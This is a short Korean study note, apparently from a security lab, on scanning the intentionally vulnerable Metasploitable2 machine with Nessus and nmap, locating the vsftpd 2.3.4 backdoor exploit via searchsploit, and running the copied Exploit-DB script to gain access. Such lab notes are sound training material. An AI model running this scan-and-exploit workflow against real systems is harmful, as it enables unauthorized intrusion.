







---

# Kali Linux에서 Nessus 다운 후 metas2의 취약점 파악

- 해당 사이트에서 과정을 따라하면 취약점을 파악할 수 있다.
	https://wikidocs.net/91373

---
# nmap

- Kali 명령어

	
	nmap [ip]
	nmap -sV -sC [ip]
	nmap -sV [ip] > scan.res
	
	nmap으로 어떤 포트가 취약점이 있는지 확인 한 다음
	
	searchsploit vsftpd 2.3.4
	https://www.exploit-db.com/ 해당 사이트를 참조해서 취약점을 찾아준다.
	
	
	
	searchsploit으로 취약점 목록을 추출해준다.
	
	find / -name 49797.py 2>/dev/null
	
	해당된 파일의 절대경로를 보여준다.
	
	
	해당 취약점에 대한 보안공격을 검색
	ex) vsftpd 2.3.4 에 대한 백도어 공격 -> 실행가능
	
	cp /usr/share/exploitdb/exploits/unix/remote/49757.py .exploit.py
	
	원하는 폴더로 가서 exploit.py를 복사해준다.
	
	
	오류가 났는데 6200포트에 뭐가 문제가 있어보인다. nmap으로 해당 포트를 확인
	nmap -p 6200 [대상ip]
	python .exploit.py [대상ip]
	
	상대방의 취약점을 이용해 접속한 상태이다.
	
	
	
	매우 취약한 취약점 -> 그냥 접속 가능
	
	
	ftp도 접속이될까?
	

---
# 오탐, 미탐

	미탐이 훨씬 위험하다.

